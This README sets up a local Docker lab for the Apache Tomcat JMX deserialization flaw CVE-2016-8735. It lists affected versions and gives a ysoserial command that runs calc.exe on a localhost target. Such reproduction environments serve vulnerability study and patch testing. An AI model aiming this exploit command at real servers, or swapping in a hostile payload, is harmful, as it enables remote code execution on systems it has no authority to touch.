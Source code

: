 # Tomcat Remote Code Execution Vulnability(CVE-2016-8735)

## Introduction

Remote code execution is possible with Apache Tomcat if `JmxRemoteLifecycleListener` is used and an attacker can reach JMX ports. The issue exists because this listener wasn't updated for consistency with the `CVE-2016-3427` Oracle patch that affected credential types.

Impact version:

```
Tomcat [6.0.0 6.0.47]
Tomcat [7.0.0 7.0.72]
Tomcat [8.0.0-RC1 8.0.38]
Tomcat [8.5.0 8.5.6]
Tomcat [9.0.0.M1 9.0.0.M11]
```

Request `jdk < 7u131 or 8u121`

## Usage

Run

```bash
docker-compose up
```

After that, use [ysoserial](https://github.com/frohoff/ysoserial) to exploit it.

```bash
java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit localhost 10001 Groovy1 calc.exe
```

![screenshot](images/screenshot1.png "Screenshot")